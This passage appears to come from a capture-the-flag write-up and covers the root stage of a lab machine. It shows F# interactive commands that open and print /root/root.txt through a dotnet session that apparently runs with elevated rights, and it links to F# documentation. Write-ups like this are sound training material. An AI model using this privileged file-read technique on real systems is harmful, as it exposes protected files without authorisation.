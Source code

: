 After that you can now type and execute dotnet code and then type following commands to read any file:

```bash
> open System.IO;;                                                                                                                                                                           
> open System;;
> let sr = new StreamReader("/root/root.txt");;
val sr: StreamReader

> Console.WriteLine(sr.ReadToEnd());;
[root.txt] <- Hidden flag displayed here
```

Resources that helped for root part:

- [https://learn.microsoft.com/en-us/dotnet/fsharp/tutorials/using-functions](https://learn.microsoft.com/en-us/dotnet/fsharp/tutorials/using-functions)
- [https://learn.microsoft.com/en-us/dotnet/standard/io/how-to-read-text-from-a-file](https://learn.microsoft.com/en-us/dotnet/standard/io/how-to-read-text-from-a-file)

Root part took a long sitting until I figured a bit of F# and how dotnet work on linux environment but pretty fun box, you can easily get stuck on many routes but carefully observed environment and logic can lead you to right path.